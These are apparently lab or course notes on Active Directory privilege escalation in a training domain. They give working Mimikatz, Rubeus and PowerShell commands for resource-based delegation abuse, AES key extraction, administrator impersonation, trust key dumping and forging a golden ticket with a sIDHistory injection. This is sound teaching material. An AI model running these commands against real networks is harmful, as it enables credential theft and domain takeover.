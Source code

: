 
## Using the ActiveDirectory module, configure RBCD on dcorp-mgmt for
student machines :
`$comps = 'dcorp-student1$','dcorp-student2$'`
`Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps`
## Now, let's get the privileges of dcorp-studentx$ by extracting its AESkeys:
`Invoke-Mimikatz -Command '"sekurlsa::ekeys"'`
## Use the AES key of dcorp-studentx$ with Rubeus and access dcorp-
mgmt as ANY user we want:
`Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt`
`winrs -r:dcorp-mgmt cmd.exe`(Because we have a TGS we cannot jump to another machine as a Domain Admin)

# (Child to Parent)(Forest priv esc)Knock knock whos there? Enterprise admin plz open the gates
## sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed,they get a new SID and the old SID is added to sIDHistory.sIDHistory can be abused in two ways of escalating privileges within a forest:
– krbtgt hash of the child
– Trust tickets
## So, what is required to forge trust tickets is, obviously, the trust key. Look for [In] trust key from child to parent.
`Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc`
## We can forge and inter-realm TGT:
`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:7ef5be456dc8d7450fb8f5f7348746c5 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'`

kerberos::golden The mimikatz module
/domain:dollarcorp.moneycorp.local FQDN of the current domain
/sid:S-1-5-21-1874506631-3219952063-538504511 SID of the current domain
/sids:S-1-5-21-280534878-1496970234-700767426-519 SID of the enterprise admins group of the parent domain
/rc4:7ef5be456dc8d7450fb8f5f7348746c5 RC4 of the trust key
/user:Administrator User to impersonate
/service:krbtgt Target service in the parent domain
/target:moneycorp.local FQDN of the parent domain
/ticket:C:\AD\Tools\trust_tkt.kirbi Path where ticket is to be saved
